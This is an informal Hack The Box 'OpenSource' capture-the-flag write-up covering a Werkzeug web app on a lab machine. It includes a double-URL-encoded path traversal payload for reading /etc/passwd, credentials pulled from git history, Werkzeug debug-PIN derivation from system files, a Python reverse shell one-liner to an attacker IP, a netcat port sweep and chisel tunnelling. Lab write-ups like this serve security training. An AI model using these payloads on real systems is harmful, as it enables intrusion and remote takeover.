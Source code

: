 Hack The Box : OpenSource

Nmap scan

```bash
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
```
usual ports are open

Check the web application running on port 80 
their is a option for downloading source code of the application

after downloading and analyzing the source code we found vuln in uploads endpoint
which is an LFI but their is an validation for path travesel we need to get bypass the validation
using double url encoding and also we found a creds from git 

git branch -a
git log dev --oneline
git show a76f8f7

```
 "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/"
```

```python
@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

set payload for reading /etc/passwd

```
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F/etc/passwd
```

their is also a anothor vuln. it is an file upload through lfi it can be lead to overwrite the source code
for getting a shell 'RCE'

..//..//app/app/view.py

but we take the shell through python debug console
we know from the begining the nmap showing the http is a python server and  Werkzeug/2.1.2 is a gateway
In the webapplication the werkzeug enable the debug console by default

Generate the debug console pin using LFI
               
```bash              
/proc/net/arp

/sys/class/net/eth0/address

/proc/sys/kernel/random/boot_id

/proc/self/cgroup
````

payload for shell

```python
python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.48",9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")"
```
we get the shell inside the docker container

enumerating ip

for ip in $(seq 1 255); do nc -v -n -z -w 1 172.17.0.$ip 3000; done

172.17.0.1:3000 is open on docker port

forwarding the port 3000 into our local  machine using chisel

```
chisel client 10.10.16.48:9005 R:5000:socks
```

dev01@opensource.htb